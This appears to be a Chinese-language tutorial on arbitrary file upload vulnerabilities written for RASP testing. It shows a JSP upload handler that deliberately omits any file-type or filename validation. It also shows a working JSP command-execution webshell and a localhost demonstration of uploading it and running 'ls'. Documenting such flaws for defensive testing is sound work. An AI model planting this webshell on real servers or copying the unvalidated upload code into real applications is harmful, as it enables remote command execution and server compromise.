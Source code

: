 # 任意文件上传漏洞

Web应用通常都会包含文件上传功能，用户可以将其本地的文件上传到Web服务器上。如果服务器端没有能够正确的检测用户上传的文件类型是否合法(例如上传了`jsp`后缀的`WebShell`)就将文件写入到服务器中就可能会导致服务器被非法入侵。

## 1. Apache commons-fileupload文件上传测试

`Apache commons-fileupload`是一个非常常用的文件上传解析库，`Spring MVC`、`Struts2`、`Tomcat`等底层处理文件上传请求都是使用的这个库，所以`RASP`必须能够支持使用`Apache commons-fileupload`库解析的文件上传请求。

**示例 - 文件上传：**

```jsp
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.commons.fileupload.FileItemIterator" %>
<%@ page import="org.apache.commons.fileupload.FileItemStream" %>
<%@ page import="org.apache.commons.fileupload.servlet.ServletFileUpload" %>
<%@ page import="org.apache.commons.fileupload.util.Streams" %>
<%@ page import="java.io.File" %>
<%@ page import="java.io.FileOutputStream" %>
<%
    if (ServletFileUpload.isMultipartContent(request)) {
        ServletFileUpload fileUpload       = new ServletFileUpload();
        FileItemIterator  fileItemIterator = fileUpload.getItemIterator(request);

        String dir       = request.getServletContext().getRealPath("/uploads/");
        File   uploadDir = new File(dir);

        if (!uploadDir.exists()) {
            uploadDir.mkdir();
        }

        while (fileItemIterator.hasNext()) {
            FileItemStream fileItemStream = fileItemIterator.next();
            String         fieldName      = fileItemStream.getFieldName();// 字段名称

            if (fileItemStream.isFormField()) {
                String fieldValue = Streams.asString(fileItemStream.openStream());// 字段值
                out.println(fieldName + "=" + fieldValue);
            } else {
                String fileName   = fileItemStream.getName();
                File   uploadFile = new File(uploadDir, fileName);
                out.println(fieldName + "=" + fileName);
                FileOutputStream fos = new FileOutputStream(uploadFile);

                // 写文件
                Streams.copy(fileItemStream.openStream(), fos, true);

                out.println("文件上传成功:" + uploadFile.getAbsolutePath());
            }
        }
    } else {
%>
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>File upload</title>
</head>
<body>
<form action="" enctype="multipart/form-data" method="post">
    <p>
        用户名: <input name="username" type="text"/>
        文件: <input id="file" name="file" type="file"/>
    </p>
    <input name="submit" type="submit" value="Submit"/>
</form>
</body>
</html>
<%
    }
%>
```

示例-本地命令执行后门代码：

```jsp
<%@ page import="java.io.InputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<pre>
<%
    String[] cmd = request.getParameterValues("cmd");
    Process process = Runtime.getRuntime().exec(cmd);
    InputStream in = process.getInputStream();
    int a = 0;
    byte[] b = new byte[1024];

    while ((a = in.read(b)) != -1) {
        out.println(new String(b, 0, a));
    }

    in.close();
%>
</pre>
```

因为Web应用未检测用户上传的文件合法性导致了任意文件上传漏洞，访问：[http://localhost:8000/modules/servlet/fileupload/file-upload.jsp](http://localhost:8000/modules/servlet/fileupload/file-upload.jsp)，并选择一个恶意的jsp后门(示例上传的是一个本地命令执行的后门):

<img src="../images/image-20200921003740246.png" alt="image-20200921003740246" style="zoom:50%;" />

后门成功的写入到了网站目录：

![image-20200921003719254](../images/image-20200921003719254.png)

访问命令执行后门测试：[http://localhost:8000/uploads/cmd.jsp?cmd=ls](http://localhost:8000/uploads/cmd.jsp?cmd=ls)，如下图：

<img src="../images/image-20200921003841786.png" alt="image-20200921003841786" style="zoom:50%;" />

